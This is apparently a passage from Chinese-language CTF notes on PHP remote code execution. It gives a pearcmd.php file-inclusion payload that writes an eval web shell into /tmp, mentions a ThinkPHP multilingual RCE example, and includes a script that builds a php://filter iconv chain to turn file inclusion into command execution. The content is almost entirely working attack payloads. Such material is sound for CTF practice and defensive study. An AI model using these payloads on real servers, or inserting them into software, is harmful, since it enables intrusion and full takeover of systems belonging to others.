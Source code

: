```python
/?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/ctf.php+-d+man_dir=<?eval($_POST[1]);?>+-s+
```

## 例题

参考例题篇Thinkphp 多语言 RCE

# php://filter链RCE

```go
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";//<?=`$_GET[0]`;;?>
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=/etc/passwd";

```
